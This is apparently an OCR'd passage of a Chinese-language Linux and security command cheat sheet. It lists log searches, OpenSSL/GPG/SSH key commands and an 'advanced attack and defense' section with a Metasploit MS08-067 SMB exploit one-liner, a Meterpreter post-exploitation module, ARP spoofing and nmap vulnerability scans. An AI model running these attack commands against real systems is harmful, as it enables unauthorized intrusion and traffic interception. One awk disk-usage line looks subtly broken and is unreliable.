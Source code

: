 1. 2. **ps -ef | grep 进程名 | grep -v grep**  
  
1. • 查找并列出系统中正在运行的指定进程。  
  
1. 3. **df -h | awk '$NF=="/"{printf "磁盘使用率: %d/%dGB (%.2f%%)\n", $3/$1024,$2/$1024,$5 ""}'**  
  
1. • 格式化显示磁盘使用情况，包括已用和可用空间以及使用率。  
  
1. 4. **grep '关键字' /var/log/系统日志文件 | awk '{print $1, $2, $3, $4, $7}'**  
  
1. • 在系统日志文件中搜索包含指定关键字的行，并格式化输出时间戳、主机名、进程ID和日志消息。  
  
1. 5. **awk '/关键字/ {print $0}' /var/log/auth.log | sort | uniq -c | sort -nr**  
  
1. • 在认证日志文件中搜索包含指定关键字的行，对结果进行排序、去重、计数，并按降序排列。  
  
#### 七、高级攻击与防御技术  
  
1. 1. **mitmproxy -s 脚本文件.py**  
  
1. • 启动Mitmproxy并加载指定的Python脚本，用于拦截、修改和分析HTTP/HTTPS流量。  
  
1. 2. **meterpreter > run post/windows/gather/check_vm**  
  
1. • 在Meterpreter会话中运行一个后渗透模块，检查目标系统是否为虚拟机。  
  
1. 3. **msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set RHOST 目标IP; exploit"**  
  
1. • 在Metasploit框架中静默模式下运行一个SMB漏洞利用模块，指定目标IP并执行攻击。  
  
1. 4. **nmap --script=漏洞脚本 -p 端口号 目标IP**  
  
1. • 使用nmap的脚本引擎对目标IP的指定端口进行漏洞扫描。  
  
1. 5. **arpspoof -i 接口名 -t 目标IP 网关IP**  
  
1. • 使用ARP欺骗工具arpspoof对指定目标IP进行ARP欺骗，将目标IP的流量重定向到指定的网关IP。  
  
#### 八、密码学与加密技术  
  
1. 1. **openssl genpkey -algorithm RSA -out 私钥文件.pem -pkeyopt rsa_keygen_bits:2048**  
  
1. • 使用OpenSSL生成一个2048位的RSA私钥文件。  
  
1. 2. **openssl req -new -key 私钥文件.pem -out 证书请求文件.csr**  
  
1. • 根据已有的私钥文件生成证书签名请求（CSR）。  
  
1. 3. **openssl x509 -req -days 365 -in 证书请求文件.csr -signkey 私钥文件.pem -out 自签名证书.crt**  
  
1. • 使用私钥对CSR进行签名，生成自签名证书，有效期为365天。  
  
1. 4. **gpg --encrypt --recipient 接收者公钥ID 文件名**  
  
1. • 使用GPG对文件进行加密，指定接收者的公钥ID。  
  
1. 5. **ssh-keygen -t rsa -b 4096 -C "注释"**  
  
1. • 生成一个4096位的RSA SSH密钥对，并添加注释。  
  
#### 九、容器与云服务安全  
  
1. 1. **docker exec -it 容器ID /bin/bash**  
  